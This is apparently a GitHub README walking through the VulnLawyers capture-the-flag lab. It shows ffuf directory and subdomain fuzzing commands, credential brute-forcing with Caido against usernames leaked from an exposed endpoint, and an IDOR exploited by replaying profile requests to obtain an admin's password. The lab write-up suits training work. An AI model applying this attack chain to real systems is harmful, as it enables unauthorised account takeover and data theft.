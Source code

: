 VulnLawyers - CTF Walkthrough

📁 Repository Overview

  This repository contains a full walkthrough of the VulnLawyers CTF, solved using only:

    ffuf (directory and subdomain fuzzing)

    Caido (web proxy analysis)

  The methodology follows a clean, repeatable pentest format with all flags captured and documented.

  All screenshots and proof-of-work are stored in the _/screenshots_ directory.

🔧 Tools Used

  ffuf – Fast web fuzzer

  Caido – Web proxy for intercepting and manipulating requests

  Linux shell (Parrot OS)

🔍 Scope

    https://sufrin.ctfi/

🧠 Objective

  Gain access to the VulnLawyers web server, enumerate for vulnerabilities, escalate privileges, and capture all flags.

🛰️ 1. Recon

⚠️ Note: No ports were open for full nmap scan; proceeded directly to web-based fuzzing using known open access.

📂 2. Directory Fuzzing with ffuf (Main Domain)

  _ffuf -w subdomains.txt -u https://sufrin.ctfi/FUZZ_

  Key results:

    /css
    /images
    /login

🌐 3. Subdomain Discovery with ffuf (Main Domain)

  _ffuf -w subdomains.txt -u https://sufrin.ctfi/ -H "Host: FUZZ.sufrin.ctfi"_

  Key result:

    data

📂 4. Directory Fuzzing with ffuf (Subdomain: data)

  _ffuf -w subdomains.txt -u https://data.sufrin.ctfi/FUZZ_

  Key result:

    /users

🔐 5. Intercept & Analyze with Caido

  Interecepted GET _/users_

  Key finding:

    {
    "users": [{
        "name": "Yusef Mcclain",
        "email": "________________"
    }, {
        "name": "Shayne Cairns",
        "email": "_________________________"
    }, {
        "name": "Eisa Evans",
        "email": "________________________"
    }, {
        "name": "Jaskaran Lowe",
        "email": "_______________________"
    }, {
        "name": "Marsha Blankenship",
        "email": "_________________________"
    }],
    "flag": "[________________________________]"
    }

  Intercepted GET _/login_

  Key finding:

    /lawyers-only

  Intercepted POST _/lawyers-only_ (login attempt)

  Key findings (Structure):

    email=admin&password=admin

🛠️ 6. Login Access with Caido

  Automated Matrix Payloads with Caido

  Used usernames found in _/users_ domain and _passwords.txt_ file provided by HackingHub

  Gained credentials and access to _/lawyers-only-profile_

🔐 7. Intercept & Analyze with Caido

Intercepted GET _/lawyers-only-profile-details/4_ (attempted change of credentials)

  Key findings: 

  Insecure Direct Object Reference (IDOR)

    {
    "id": 4,
    "name": "___________",
    "email": "_____________________",
    "password": "_____________"
    }

🧍 8. Privilege Escalation 

  Replayed request with Caido

  GET _/lawyers-only-profile-details/2_

  Key findings:

  User that happens to be the case manager

    {
    "id": 2,
    "name": "Shayne Cairns",
    "email": "_______________",
    "password": "______________",
    "flag": "[____________________]"
    }

  Gained access as Shayne Cairns (Case Manger - Admin)

🏁 7. Flags Captured

Flag # 1

  Path: _https://sufrin.ctfi/users_

Flag # 2

  Caido Intercept: GET _/login_

Flag # 3

  Caido Intercept: GET _/users_

Flag # 4

  Staff Portal: _https://sufrin.ctfi/lawyers-only_

Flag # 5

  Caido Request Replay: GET _/lawyers-only-profile-details/2_
  
Flag # 6

  Staff Portal as Shayne Cairns and deleted current case.

📌 Lessons Learned

Efficient use of just 2 tools (ffuf, caido) is enough to fully compromise a box

Importance of analyzing requests carefully in Caido

Logic flaws and poorly implemented login mechanisms are often more exploitable than buffer overflows
